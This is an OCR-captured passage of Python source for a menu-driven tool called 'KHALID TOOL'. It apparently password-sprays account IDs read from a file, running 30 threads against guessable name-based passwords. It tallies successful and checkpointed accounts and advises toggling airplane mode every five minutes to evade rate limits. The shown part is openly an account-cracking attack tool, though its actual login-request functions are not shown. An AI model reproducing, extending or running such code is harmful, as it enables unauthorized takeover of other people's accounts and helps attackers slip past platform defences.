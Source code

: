                                 except FileNotFoundError:
                                        print('\033[0;97m[•]\x1b[1;91m FILE LOCATION NOT FOUND')
                                        time.sleep(1)
                                        clear()
                                        menu()
                                clear()
                                print('\t\x1b[1;92mKHALID TOOL METHODS MENU')
                                linex()
                                print('\033[0;97m[1] \033[0;92mMETHOD \033[0;97m(\033[0;96mNEW IDS\033[0;97m)')
                                print('\033[0;97m[2] \033[0;92mMETHOD \033[0;97m(\033[0;96mMIX IDS\033[0;97m)')
                                print('\033[0;97m[3] \033[0;92mMETHOD \033[0;97m(\033[0;96mOLD/NEW IDS\033[0;97m)')
                                linex()
                                mthd=input('\033[0;97m[•] \033[0;92mCHOOSE \x1b[1;91m: \x1b[1;96m')
                                linex()
                                plist = []
                                try:
                                        ps_limit = int(input('\033[0;97m[+] \033[0;92mHOW MANY PASSWORD DO YOU WANT TO ADD ? : '))
                                except:
                                        ps_limit =1
                                clear()
                                print('\t\x1b[1;92mKHALID TOOL PASSWORD MENU')
                                linex()
                                print('\033[0;97m[+]\033[1;32m EXAMPLE \033[0;91m: \033[0;96mfirst last,firtslast,first123')
                                linex()
                                for i in range(ps_limit):
                                        plist.append(input(f'\033[0;97m[•] \x1b[1;92mPUT PASSWORD {i+1} \033[1;31m: \033[1;36m'))
                                clear()
                                print('\t\x1b[1;92mKHALID TOOL ACCOUNTS DISPLAY MENU')
                                linex()
                                print('\033[0;97m[•]\x1b[1;92m DO YOU WANT SHOW CP ACCOUNTS? \033[1;37m(\033[1;36my\033[1;37m/\x1b[1;96mn\033[1;37m) \033[1;31m: \x1b[1;93m')
                                linex()
                                cx=input('\033[0;97m[•] \033[0;92mCHOOSE \x1b[1;91m: \x1b[1;96m')
                                if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                        pcp.append('n')
                                with tred(max_workers=30) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))
                                        #print(\t\x1b[1;92mFILE CRACKING MENU')
                                        #linex()
                                        print('\033[0;97m[•] \033[0;92mTOTAL ACCOUNTS  \033[0;91m:  \033[0;96m'+total_ids+'')
                                        print("\033[0;97m[•] \x1b[1;92mCLONING STARTED \033[1;91m:  \033[1;96mTIME \033[1;97m[\033[1;96m"+str(a)+"\033[1;91m:\033[1;96m"+str(lt()[4])+" "+ tag+"\x1b[1;97m]")
                                        print('\033[0;97m[•]\x1b[1;92m KHALID TOOL CRACKING HAS BEEN STARTED')
                                        linex()
                                        print('\x1b[1;97m\x1b[1;96mUSE FLIGHT [\x1b[38;5;205mAIRPLANE\033[1;37m] \x1b[1;96mMODE IN EVERY 5 MINUTES')
                                        linex()
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(ffb,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(api,ids,names,passlist)
                                                else:
                                                        crack_submit.submit(api1,ids,names,passlist)
                                print('\033[1;37m')
                                linex()
                                print('\033[0;97m[•]\x1b[1;92m THE PROCESS HAS COMPLETED')
                                print('\033[0;97m[•]\x1b[1;92m TOTAL OK/CP ACCOUNTS \x1b[1;91m:\x1b[1;92m '+str(len(oks))+'\033[1;37m/\033[1;31m'+str(len(cps)))